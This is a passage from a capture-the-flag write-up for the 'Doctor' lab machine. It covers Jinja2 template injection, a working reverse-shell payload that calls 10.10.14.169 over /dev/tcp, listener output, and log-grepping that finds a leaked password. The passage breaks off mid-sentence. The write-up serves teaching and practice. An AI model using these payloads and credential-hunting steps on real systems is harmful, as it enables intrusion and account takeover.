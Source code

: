 As the box is not realistic and most challenge "developers" only know
python and never try another language so it's almost safe to assume the
web app is coded in python and the template engine will be Jinja2.

Let's try `{{ 7*7 }}`, on the RSS feed we can see `<item><title>49</title></item>`
so we know the payload is executed.

Let's directly try a simple RCE to get a reverse shell:

```python
{{config.__class__.__init__.__globals__['os'].popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.169/9999 0>&1"').read()}}
```

After triggering the RSS feed I received the connection on my listener:

```plaintext
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.209:50334 (family 2/IPv4, TCP)
bash: cannot set terminal process group (864): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$
```

## Privilege Escalation of Machine : from web to shaun

Interestingly the user we have is in the `adm` group, this means it can
read `/var/log/`.

```plaintext
web@doctor:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

Let's check users with a shell to know which user target next:

```plaintext
web@doctor:~$ grep bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash
shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash
```

As we are in `adm` group I directly targeted `/var/log/`:

```plaintext
web@doctor:~$ grep -r password /var/logs
...
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
...
```

Warning: guessing involved here for 2 things:
